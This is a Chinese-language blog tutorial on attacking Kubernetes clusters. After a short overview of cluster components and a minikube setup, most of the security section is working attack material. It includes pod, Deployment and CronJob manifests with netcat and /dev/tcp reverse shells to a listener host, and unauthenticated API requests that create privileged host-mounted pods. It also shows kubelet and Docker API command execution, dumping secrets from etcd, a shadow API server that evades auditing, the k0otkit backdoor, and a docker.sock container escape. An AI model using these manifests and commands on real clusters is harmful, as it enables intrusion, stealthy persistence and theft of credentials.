# 云原生 kubernetes 安全[k8s 渗透]

## kubernetes

Kubernetes 是一个开源的，用于编排云平台中多个主机上的容器化的应用，目标是让部署容器化的应用能简单并且高效的使用，提供了应用部署，规划，更新，维护的一种机制。其核心的特点就是能够自主的管理容器来保证云平台中的容器按照用户的期望状态运行着，管理员可以加载一个微型服务，让规划器来找到合适的位置，同时，Kubernetes 在系统提升工具以及人性化方面，让用户能够方便的部署自己的应用。常见的 kubernet[es 集群](https://so.csdn.net/so/search?q=es%E9%9B%86%E7%BE%A4&spm=1001.2101.3001.7020)结果如下图所示  




### Master 节点

Master 节点是 Kubernetes 集群的控制节点，每个 Kubernetes 集群里至少有一个 Master 节点，它负责整个集群的决策（如调度），发现和响应集群的事件。Master 节点可以运行在集群中的任意一个节点上，但是最好将 Master 节点作为一个独立节点，不在该节点上创建容器，因为如果该节点出现问题导致宕机或不可用，整个集群的管理就会失效。

在 Master 节点上，通常会运行以下服务：

-   kube-apiserver: 部署在 Master 上暴露 Kubernetes API，是 Kubernetes 的控制面。
-   etcd: 一致且高度可用的 Key-Value 存储，用作 Kubernetes 的所有群集数据的后备存储。
-   kube-scheduler: 调度器，运行在 Master 上，用于监控节点中的容器运行情况，并挑选节点来创建新的容器。调度决策所考虑的因素包括资源需求，硬件/软件/策略约束，亲和和排斥性规范，数据位置，工作负载间干扰和最后期限。
-   kube-controller-manager：控制和管理器，运行在 Master 上，每个控制器都是独立的进程，但为了降低复杂性，这些控制器都被编译成单一的二进制文件，并以单独的进程运行。

### Node 节点

Node 节点是 Kubernetes 集群的工作节点，每个集群中至少需要一台 Node 节点，它负责真正的运行 Pod，当某个 Node 节点出现问题而导致宕机时，Master 会自动将该节点上的 Pod 调度到其他节点。Node 节点可以运行在物理机上，也可以运行在虚拟机中。

在 Node 节点上，通常会运行以下服务：

-   kubelet: 运行在每一个 Node 节点上的客户端，负责 Pod 对应的容器创建，启动和停止等任务，同时和 Master 节点进行通信，实现集群管理的基本功能。
-   kube-proxy: 负责 Kubernetes Services 的通信和负载均衡机制。
-   Docker Engine: 负责节点上的容器的创建和管理。

Node 节点可以在集群运行期间动态增加，只要整个节点已经正确安装配置和启动了上面的进程。在默认情况下，kubelet 会向 Master 自动注册。一旦 Node 被接入到集群管理中，kubelet 会定时向 Master 节点汇报自身的情况（操作系统，Docker 版本，CPU 内存使用情况等），这样 Master 便可以在知道每个节点的详细情况的同时，还能知道该节点是否是正常运行。当 Node 节点心跳超时时，Master 节点会自动判断该节点处于不可用状态，并会对该 Node 节点上的 Pod 进行迁移。

### pod

Pod 是 Kubernetes 最重要也是最基本的概念，一个 Pod 是一组共享网络和存储（可以是一个或多个）的容器。Pod 中的容器都是统一进行调度，并且运行在共享上下文中。一个 Pod 被定义为一个逻辑的 host，它包括一个或多个相对耦合的容器。

Pod 的共享上下文，实际上是一组由 namespace、cgroups, 其他资源的隔离的集合，意味着 Pod 中的资源已经是被隔离过了的，而在 Pod 中的每一个独立的 container 又对 Pod 中的资源进行了二次隔离。

## Replication Controller

Replication Controller 确保任意时间都有指定数量的 Pod“副本”在运行。如果为某个 Pod 创建了 Replication Controller 并且指定 3 个副本，它会创建 3 个 Pod，并且持续监控它们。如果某个 Pod 不响应，那么 Replication Controller 会替换它，保持总数为 3。

## 环境搭建

### 介绍

这里推荐使用 minikube，避免徒手搭建[k8s](https://so.csdn.net/so/search?q=k8s&spm=1001.2101.3001.7020)的恐怖操作，minikube 基于 go 语言开发，可以在单机环境下快速搭建 k8s 集群，适合用于测试和本地开发。  


### 搭建

安装 kubectl

```plain
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
kubectl version --client
```

安装 docker  
https://www.cnblogs.com/jhxxb/p/11410816.html

安装 minikube

```plain
curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
sudo install minikube-linux-amd64 /usr/local/bin/minikube
```

启动

```plain
minikube start
# 中国区可以使用如下命令
minikube start --image-mirror-country='cn' --image-repository='registry.cn-hangzhou.aliyuncs.com/google_containers'
```

可能报错  
  
给 docker 增加用户权限

```plain
sudo groupadd docker
sudo gpasswd -a ${USER} docker
sudo service docker restart
newgrp  docker
```

### 使用

默认只有一个节点

```plain
minikube node list
```

  
增加一个节点

```plain
minikube node add
```

  
可视化

```plain
minikube dashboard --url
```

  
界面  
  
让所有机器都能访问

```plain
kubectl proxy --port=8888 --address='0.0.0.0' --accept-hosts='^.*'
```

  
安装部署 nginx

```plain
kubectl create deployment nginx --image=nginx
kubectl expose deployment nginx --port=80 --type=NodePort
minikube service --url nginx
```

如果报错  
  
解决方法

```plain
sudo chmod 666 /var/run/docker.sock
 minikube service --url nginx
```



## Kubernetes 安全

随着上云普及率越来越高，渗透方式也在不断改变，传统的渗透路径一般是：外网突破 -> [提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020) -> 权限维持 -> 信息收集 -> 横向移动 -> 循环收集信息

但是虚拟化的上云技术给渗透带了新的思路和入侵方式：

-   通过虚拟机攻击云管理平台，利用管理平台控制所有机器
-   通过容器进行逃逸，从而控制宿主机以及横向渗透到 K8s Master 节点控制所有容器
-   利用 KVM-QEMU/执行逃逸获取宿主机，进入物理网络横向移动控制云平台

kubernetes 的常用端口  


下图来自[深信服千里目安全实验室](https://xz.aliyun.com/t/10745)，它对微软发布的 Kubernetes 威胁矩阵进行了扩展：  


### 组件相关安全风险

#### kube-apiserver

kube-apiserver 是部署在 Master 上暴露 Kubernetes API，是 Kubernetes 的控制面，默认 Kubernetes API Server 提供 HTTP 的两个端口：

1）本地主机端口

-   HTTP 服务
-   默认端口 8080，修改标识–insecure-port
-   默认 IP 是本地主机，修改标识—insecure-bind-address
-   在 HTTP 中没有认证和授权检查
-   主机访问受保护

2) Secure Port

-   默认端口 6443，修改标识—secure-port
-   默认 IP 是首个非本地主机的网络接口，修改标识—bind-address
-   HTTPS 服务。设置证书和秘钥的标识，–tls-cert-file，–tls-private-key-file
-   认证方式，令牌文件或者客户端证书
-   使用基于策略的授权方式

未授权访问接口 api，这里由于改过端口，忽略默认端口差异  
  
如果有 ui 界面，我么可以通过 ui 创建 pods，并植入恶意命令  


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 192.168.125.130 7777 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

点击上传之后反弹成功  
  
当然还可以使用 kubectl  
比如查询 nodes 和 pods

```plain
kubectl -s http://192.168.125.129:8888/ get pods
kubectl -s http://192.168.125.129:8888/ get nodes
```


或者创建恶意 pods

```plain
kubectl -s http://192.168.125.129:8888/ create -f test.yaml
```

  
  
可以通过下面接口查看未授权访问

```plain
http://192.168.125.129:8888/api/v1/namespaces/default/pods?limit=500
```

  
可以通过未授权创建特权容器

```plain
POST /api/v1/namespaces/default/pods/test02 HTTP/1.1
Host: 192.168.125.129:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 691

{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test02\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test02\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test02","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test02","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```

执行命令

```plain
https://192.168.4.110:6443/api/v1/namespace/default/pods/test02/exec?command=whoami
```

#### etcd

通常 etcd 数据库会被安装到 master 节点上，rest api 可获取集群内 token、证书、账户密码等敏感信息，默认端口为 2379。访问路径/v2/keys/?recursive=true，以 JSON 格式返回存储在服务器上的所有密钥  
或者使用工具

```plain
etcdctl --endpoints=http://[etcd_server_ip]:2379 ls
```

一般/registry/secrets/default 中可能包含对集群提升权限的默认服务令牌

#### Kubelet

kubernetes 是一个分布式的集群管理系统，在每个节点（node）上都要运行一个 worker 对容器进行生命周期的管理，这个 worker 程序就是 kubelet。  
kubelet 的主要功能就是定时从某个地方获取节点上 pod/container 的期望状态（运行什么容器、运行的副本数量、网络或者存储如何配置等等），并调用对应的容器平台接口达到这个状态。  
10250 端口是 kubelet API 的 HTTPS 端口，通过路径 https://IP:10250/pods 获取环境变量、运行的容器信息、命名空间等信息等，然后可以通过如下命令执行恶意命令

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://kube-node-here:10250/exec/<namespace>/<podname>/<container-name>?command=touch&command=test&input=1&output=1&tty=1"
```

#### Docker Engine

未授权访问 Rest API  
kubernetes 的容器编排技术进行管理构成的 docker 集群，kubernetes 是 google 开源的容器管理系统，实现基于 Docker 构建容器，利用 kubernetes 可以很方便的管理含有多台 Docker 主机中的容器，将多个 docker 主机抽象为一个资源，以集群方式管理容器。

当 docker 配置了 Rest api，我们可以通过路径 https://IP:2375//containers/json

通过远程访问接口，获得容器访问权限。启动容器时通过挂载根目录到容器内的目录，获取宿主机权限。输入如下指令，获取容器操作权限

```plain
docker -H tcp://xxx.xxx.xxx.xxx:2375 run -it -v /root/.ssh/:/mnt alpine /bin/sh
```

### k8s 持久化

#### deployment

这里要介绍一下 ReplicationController 和 Replicaset：  
RC（ReplicationController) 主要的作用就是用来确保容器应用的副本数始终保持在用户定义的副本数。即如果有容器异常退出，会自动创建新的 Pod 来替代；而如果异常多出来的容器也会自动回收 Kubernetes  
官方建议使用 RS（Replicaset）替代 RC（ReplicationController) 进行部署，RS 跟 RC 没有本质的不同，只是名字不一样，并且 RS 支持集合式的 selector

Deployment 对象，是用于部署应用的对象。它使 Kubernetes 中最常用的一个对象，它为 ReplicaSet 和 Pod 的创建提供了一种声明式的定义方法，使用 Deployment 而不直接创建 ReplicaSet 是因为 Deployment 对象拥有许多 ReplicaSet 没有的特性，例如滚动升级和回滚。deployment 有以下作用：

-   定义一组 Pod 期望数量，Controller 会维持 Pod 数量与期望数量一致
-   配置 Pod 的发布方式，controller 会按照给定的策略更新 Pod，保证更新过程中不可用 Pod 维持在限定数量范围内
-   发布有问题支持回滚

因此 Deployment 主要职责和 RC 一样，的都是保证 Pod 的数量和健康，二者大部分功能都是完全一致的，可以看成是一个升级版的 RC 控制器。

所以该功能特性也很适合用来做持久化  
  
如用 Deployment 来部署后门 yaml 如下

```yaml
apiVersion: apps/v1
kind: Deployment		#确保在任何时候都有特定数量的 Pod 副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3		#指定 Pod 副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"]	#反弹 Shell
        args: ["-c", "bash -i >& /dev/tcp/192.168.238.130/4242 0>&1"]
        securityContext:
          privileged: true	#特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```

创建 demo.yaml

```plain
kubectl create -f demo.yaml
```

#### Shadow API Server

这里可以使用工具[cdk](https://github.com/cdk-team/CDK/)，它可以在 K8s 集群中部署一个 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，接受匿名请求且不保存审计日志。便于攻击者无痕迹的管理整个集群以及下发后续渗透行动  
使用命令：

```plain
./cdk run k8s-shadow-apiserver default
```

访问与利用

```plain
./cdk kcurl anonymous get https://IP:6443/api/v1/secrets
```

#### k0otkit

k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透。使用 k0otkit，您可以以快速、隐蔽和连续的方式（反向 shell）操作目标 Kubernetes 集群中的所有节点。

K0otkit 使用到的技术：

-   DaemonSet 和 Secret 资源（快速持续反弹、资源分离）
-   kube-proxy 镜像（就地取材）
-   动态容器注入（高隐蔽性）
-   Meterpreter（流量加密）
-   无文件攻击（高隐蔽性）

下载并授权

```plain
git clone https://github.com/brant-ruan/k0otkit
cd k0otkit/
chmod +x ./*.sh
```

生成 k0otkit.sh

```plain
./pre_exp.sh
```

启动监听脚本

```bash
./handle_multi_reverse_shell.sh
```

k0otkit.sh 的内容复制到 master 执行，在 shell 中执行

#### cronjob

Job: 负责处理任务，即仅执行一次的任务，它保证批处理任务的一个或多个 Pod 成功结束。  
CronJob: 则就是在 Job 上加上了时间调度，用于执行周期性的动作，例如备份、报告生成等，攻击者可以利用此功能持久化。

```c
apiVersion: batch/v1
kind: CronJob		#使用CronJob对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"	#每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            imagePullPolicy: IfNotPresent
            command:
            - /bin/sh
            - -c
            - nc 192.168.125.130 7777 -e /bin/sh
          restartPolicy: OnFailure
```

### 容器逃逸和提权

容器逃逸主要有以下几个方法  
容器逃逸主要有以下方法：  
**配置不当**

-   错误挂载：挂载宿主机 docker.sock
-   错误挂载：挂载宿主机/proc
-   错误挂载：lxcfs 容器逃逸特
-   权容器：挂载设备进行逃逸
-   错误配置：通过 Cgroup Release Agent 进行容器逃逸  
    **其他**
-   k8s 管理员配置文件泄露
-   高权限 service account  
    **漏洞**
-   操作系统内核漏洞
-   应用程序漏洞

主要参考这篇文章 https://blog.csdn.net/w1590191166/article/details/113089994，写的非全棒  
下面举一个配置不当导致逃逸的例子

#### 挂在宿主机 docker.sock 导致逃逸

使用者将宿主机/var/run/docker.sock 文件挂载到容器中，目的是能在容器中也能操作 docker，通过 find 命令查看 dockers.sock 等高危目录和文件  
通过下面命令查看容器中是否存在 docker.sock

```c
find / -name docker.sock
```

在容器查看宿主机 docker 信息

```c
docker -H unix:///var/run/docker.sock info
```

运行一个新容器并挂载宿主机根路径

```c
docker -H unix:///var/run/docker.sock run -it -v /:/host ubuntu /bin/bash
```

在新容器的/host 目录下，就可以访问到宿主机的全部资源，接下来可以写入 ssh 密钥或者写入计划任务，获取 shell

### 横向移动

污点是 K8s 高级调度的特性，用于限制哪些 Pod 可以被调度到某一个节点。一般主节点包含一个污点，这个污点是阻止 Pod 调度到主节点上面，除非有 Pod 能容忍这个污点。而通常容忍这个污点的 Pod 都是系统级别的 Pod，例如 kube-system  


```bash
#Node中查看节点信息
[root@node1 ~]# kubectl get nodes
NAME              STATUS                     ROLES    AGE   VERSION
192.168.238.129   Ready,Sche/du/lingDisabled   master   30d   v1.21.0
192.168.238.130   Ready,Sche/du/lingDisabled   master   30d   v1.21.0
192.168.238.131   Ready                      node     30d   v1.21.0
192.168.238.132   Ready                      node     30d   v1.21.0
```

```bash
#确认Master节点的容忍度
[root@node1 ~]# kubectl describe nodes 192.168.238.130
Name:               192.168.238.130
Roles:              master
Labels:             beta.kubernetes.io/arch=amd64
                    beta.kubernetes.io/os=linux
                    kubernetes.io/arch=amd64
                    kubernetes.io/hostname=192.168.238.130
                    kubernetes.io/os=linux
                    kubernetes.io/role=master
Annotations:        flannel.alpha.coreos.com/backend-data: {"VtepMAC":"66:3b:20:6a:eb:ff"}
                    flannel.alpha.coreos.com/backend-type: vxlan
                    flannel.alpha.coreos.com/kube-subnet-manager: true
                    flannel.alpha.coreos.com/public-ip: 192.168.238.130
                    node.alpha.kubernetes.io/ttl: 0
                    volumes.kubernetes.io/controller-managed-attach-detach: true
CreationTimestamp:  Tue, 14 Sep 2021 17:41:30 +0800
Taints:             node.kubernetes.io/unschedulable:NoSchedule
```

```c
#创建带有容忍参数的Pod
[root@node1 ~]# kubectl create -f control-master.yaml
#control-master.yaml内容：
apiVersion: v1
kind: Pod
metadata:
  name: control-master-15
spec:
  tolerations:
    - key: node.kubernetes.io/unschedulable
      operator: Exists
      effect: NoSchedule
  containers:
    - name: control-master-15
      image: ubuntu:18.04
      command: ["/bin/sleep", "3650d"]
      volumeMounts:
      - name: master
        mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
```

参考  
https://www.freebuf.com/vuls/196993.html  
https://xz.aliyun.com/t/10745  
http://www.dockone.io/article/932  
https://www.jianshu.com/p/6fd42abd9baa  
https://github.com/cdk-team/CDK/  
https://blog.csdn.net/w1590191166/article/details/113089994